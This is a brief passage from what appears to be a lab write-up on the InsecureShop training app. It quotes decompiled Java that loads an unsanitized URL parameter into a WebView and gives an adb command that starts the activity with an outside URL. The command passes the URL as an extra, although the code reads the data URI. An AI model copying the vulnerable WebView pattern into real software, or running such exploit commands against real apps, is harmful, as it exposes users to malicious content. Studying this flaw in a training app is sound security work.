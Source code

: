 In `com/insecureshop/WebView2Activity`, we can see the following code snippet.
```java
Intent intent3 = getIntent();
Intrinsics.checkExpressionValueIsNotNull(intent3, "intent");
Uri data = intent3.getData();
String queryParameter = data != null ? data.getQueryParameter("url") : null;
if (!(queryParameter == null || StringsKt.isBlank(queryParameter))) {
  Intent intent4 = getIntent();
  Intrinsics.checkExpressionValueIsNotNull(intent4, "intent");
  Uri data2 = intent4.getData();
  webview.loadUrl(data2 != null ? data2.getQueryParameter("url") : null);
  return;
        }
```

It is obvious that unsanitized data are being passed to the webview. Issuing a command similar to the one below can exploit this scenario:
`adb shell am start -n com.insecureshop/.WebView2Activity --es "url" "https://yasuu.free.nf"`
